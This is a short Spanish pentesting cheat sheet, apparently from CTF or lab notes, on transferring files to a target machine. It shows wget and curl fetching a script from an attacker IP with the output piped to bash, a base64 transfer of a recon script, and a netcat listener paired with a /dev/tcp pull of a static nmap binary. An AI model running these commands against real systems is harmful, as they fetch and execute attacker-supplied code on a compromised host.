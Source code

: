 Obtener un fichero desde un equipo:
`wget http://10.10.14.19/lse.sh`
Obtener un fichero desde un equipo y pasárselo a bash para que lo interprete:
`curl -s http://10.10.14.19/lse.sh | bash`

Pasar un fichero en base64 a una máquina Linux:
> En local --> `cat recon.sh | base64 -w 0 | xclip -sel clip`
> En la máquina objetivo --> `echo "<hash_base64>" | base64 -d > recon.sh`

Transferir fichero estático de nmap (https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
> En local --> `nc -nlvp 443 < nmap`
> En la máquina objetivo --> `cat > nmap < /dev/tcp/10.9.6.44/443`
> Comparamos hashes con 'md5sum' para comprobar que la data es idéntica




